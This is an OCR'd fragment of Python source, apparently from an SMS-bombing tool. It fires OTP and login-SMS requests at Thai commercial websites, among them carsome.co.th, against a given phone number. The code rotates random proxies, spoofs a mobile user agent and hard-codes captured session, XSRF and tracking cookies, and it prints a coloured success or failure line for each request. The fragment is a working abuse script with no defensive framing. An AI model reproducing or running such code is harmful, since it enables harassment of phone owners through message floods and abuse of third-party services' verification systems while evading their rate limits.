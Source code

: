           "_gcl_au=1.1.1502258808.1656237331;_fbp=fb.1.1656237331957.603057766;__gads=ID=eb23ce56d1c7de3e-22e38929c0d40031:T=1656237332:RT=1656237332:S=ALNI_MZC9-jiB6phkTi6InD_2HFqsf7dTA;lang=th;pagesInSession=1;__gpi=UID=00000633fd49bde3:T=1656237332:RT=1656415272:S=ALNI_MZJBTJ3y6ilUC3xgp70URp3GC1PEg;_ga_N9T2LF0PJ1=GS1.1.1656415272.2.0.1656415272.0;_ga=GA1.2.543101815.1656237332;_gid=GA1.2.846940337.1656415273;_gat_UA-133219660-2=1;popup_1436=true;adonis-session=95ad0fa91d1d2f313006a0e2b0ef4a55VMCjUjHXUP5Z7dIt9yj0ikjCYKp6h2Y%2B0opJ%2FIEkK1igD11Zq3PhMqfGOSfG3%2F5R5C%2FLCKcoaEYy14g4HXhfjwGl5eOP1MZpX99v3PE75RD8GTZOTSvxcNvhvTTGYHI7;XSRF-TOKEN=33ed88f53546803c779ff8c10e7386057YuSCY%2FkUuCibrt0phirk%2BftZp83UlwChfA5qjn8OJy268fFbtZDDu5U3Wc%2BUMKSLdUFEtf7U4rRzuy2rvmK%2BLFcY5y5N6eextOHy53Eg9zuedQdkV0DSRIKKo4q0CBA",
          "user-agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
          "content-type": "application/json;charset=UTF-8"
      },
      json={
          "mobile": phone,
          "country_code": "TH",
          "lang": "th",
          "channel": "sms",
          "digit": 4
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api3(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://www.carsome.co.th/website/login/sendSMS",
      headers={
          "user-agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
          "cookie":
          "amp_893e6b=w-newQWGaJ9H7YmD5KD1Jg...1g6l3e5ht.1g6l3e5ht.0.0.0;cky-active-check=yes;ajs_anonymous_id=bc6fbe42-9d69-40d9-93db-ba6b777861c1;_gcl_au=1.1.1543614339.1656418159;_ALGOLIA=anonymous-0a2bcc78-8c2b-4051-bfea-97cb347b1e17;__lt__cid=f282ddb1-0630-4c9e-ab88-27f6bd651a35;__lt__sid=530143c9-c9d21696;cookieyesID=R1V5aHU4eWswY21YbjM0NHFGb1FVc1pObDc3U2NSYkk=;moe_uuid=ff0db811-2642-4a84-83a3-7dd26d9c33a1;__cf_bm=4SQWD6XX3mlhMhXrkJ8A1.4MzqJ80OVt9BMJ9NH5uFw-1656418177-0-AdYubBhGil+XHg2/1J8WHy36qRL2urjlZUNUYGwGOkQyg0wlFLvwXAv8ugmj2IdM5ZaTfFxlz/2lRwsTuRRxnrQ=;cky-consent=no;cookieyes-necessary=yes;cookieyes-functional=no;cookieyes-analytics=no;cookieyes-performance=no;cookieyes-advertisement=no;cookieyes-other=no"
      },
      json={
          "username": phone,
          "optType": 0
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )
